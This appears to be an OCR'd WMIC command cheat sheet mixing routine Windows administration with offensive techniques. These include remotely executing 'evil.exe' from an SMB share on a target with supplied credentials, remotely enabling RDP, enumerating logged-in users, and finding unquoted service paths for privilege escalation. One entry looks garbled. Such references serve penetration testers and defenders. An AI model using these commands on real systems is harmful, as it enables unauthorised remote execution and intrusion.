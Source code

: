 # wmic: list all attributes  
wmic [alias] get /?  
  
# wmic: callable methods  
wmic [alias] call /?  
  
# wmic: process attributes  
wmic process list full  
  
# wmic: starts wmic service  
wmic startupwmic service  
  
# wmic: domain and DC info  
wmic ntdomain list  
  
# wmic: list all patches  
wmic qfe  
  
# wmic: execute process  
wmic process call create "process_name"  
  
# wmic: terminate process  
wmic process where name="process" call terminate  
  
# wmic: view logical shares  
wmic logicaldisk get description,name  
  
# wmic: display 32 || 64 bit  
wmic cpu get DataWidth /format:list  
  
alias: process, share, startup, service, niconfig, useraccount, etc.  
  
# wmic: execute file hosted over SMB on remote system with specified credential  
wmic /node:<targetiP> /user:domain\user /password:password process call create "\\<smbiP>\share\evil.exe"  
  
# wmic: get software names  
wmic product get name /value  
wmic product where name="XXX" call uninstall /nointeractive  
  
# wmic: remotely determine logged in user  
wmic /node:remotecomputer computersystem get username  
  
# wmic: remote process listing every second  
wmic /node:machinename process list brief /every:1  
  
# wmic: remotely start RDP  
wmic /node:"machinename 4" path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"  
  
# wmic: list numbers of times user logged in  
wmic netlogin where (name like "%adm%") get numberoflogons  
  
# wmic: search for services with unquoted paths to binary  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """